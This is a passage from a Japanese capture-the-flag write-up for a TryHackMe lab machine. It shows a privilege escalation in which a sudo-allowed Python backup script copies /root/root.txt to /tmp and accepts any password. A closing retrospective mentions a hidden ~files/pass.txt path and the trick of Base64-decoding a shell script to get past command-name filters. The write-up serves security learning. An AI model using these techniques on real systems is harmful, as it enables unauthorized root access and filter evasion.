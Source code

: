 ```shell
drwx------  3 root root 4096 May 10 13:46 systemd-private-6cb4cca3c34c4ad79a881429b548d02a-systemd-resolved.service-ulXx4N
drwx------  3 root root 4096 May 10 13:46 systemd-private-6cb4cca3c34c4ad79a881429b548d02a-systemd-timesyncd.service-ySOh6D

yash@safezone:~$ cat /tmp/root.txt
THM{63................................}
```

ファイル名もパスワードもあてずっぽうで入れたら一発で成功して唖然。

パスワードは何でも良いらしい。

```shell
yash@safezone:~$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /tmp/root-2.txt
Enter Password: secret

yash@safezone:~$ ls -al /tmp
total 52
drwxrwxrwt 10 root root 4096 May 10 17:23 .
drwxr-xr-x 23 root root 4096 Mar 29  2021 ..
drwxrwxrwt  2 root root 4096 May 10 13:46 .ICE-unix
drwxrwxrwt  2 root root 4096 May 10 13:46 .Test-unix
drwxrwxrwt  2 root root 4096 May 10 13:46 .X11-unix
drwxrwxrwt  2 root root 4096 May 10 13:46 .XIM-unix
drwxrwxrwt  2 root root 4096 May 10 13:46 .font-unix
-rwxr-xr-x  1 yash yash   74 May 10 17:14 aaa.sh
prw-r--r--  1 yash yash    0 May 10 17:23 f
-rw-r--r--  1 root root   38 May 10 17:23 root-2.txt
-rw-r--r--  1 root root   38 May 10 17:21 root.txt
drwx------  3 root root 4096 May 10 13:46 systemd-private-6cb4cca3c34c4ad79a881429b548d02a-apache2.service-ZdPucP
drwx------  3 root root 4096 May 10 13:46 systemd-private-6cb4cca3c34c4ad79a881429b548d02a-systemd-resolved.service-ulXx4N
drwx------  3 root root 4096 May 10 13:46 systemd-private-6cb4cca3c34c4ad79a881429b548d02a-systemd-timesyncd.service-ySOh6D
```

## 振り返り

- `http://safezone.thm/~files/pass.txt` このパターンは知らなかったので覚えておきたい。自分にとってはここが一番難しかった。
- コマンド名がフィルタリングされているときに、Base64デコードしつつシェルファイル作成、実行する手口は実用的なのですぐ思いつくようにしたい。
- 最後、パスワード入力を求められたときにあきらめて Ctrl+C を押さないでよかった。
